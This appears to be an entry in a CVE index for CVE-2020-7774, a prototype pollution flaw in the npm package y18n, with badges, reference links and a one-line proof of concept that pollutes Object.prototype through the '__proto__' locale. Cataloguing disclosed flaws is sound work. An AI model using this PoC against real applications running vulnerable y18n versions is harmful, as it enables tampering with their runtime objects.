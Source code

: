 ### [CVE-2020-7774](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7774)
![](https://img.shields.io/static/v1?label=Product&message=y18n&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%205.0.5%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Prototype%20Pollution&color=brighgreen)

### Description

This affects the package y18n before 3.2.2, 4.0.1 and 5.0.5. PoC by po6ix: const y18n = require('y18n')(); y18n.setLocale('__proto__'); y18n.updateLocale({polluted: true}); console.log(polluted); // true

### POC

#### Reference
- https://snyk.io/vuln/SNYK-JS-Y18N-1021887
- https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSNPM-1038306
- https://github.com/yargs/y18n/issues/96

#### Github
No GitHub POC found.

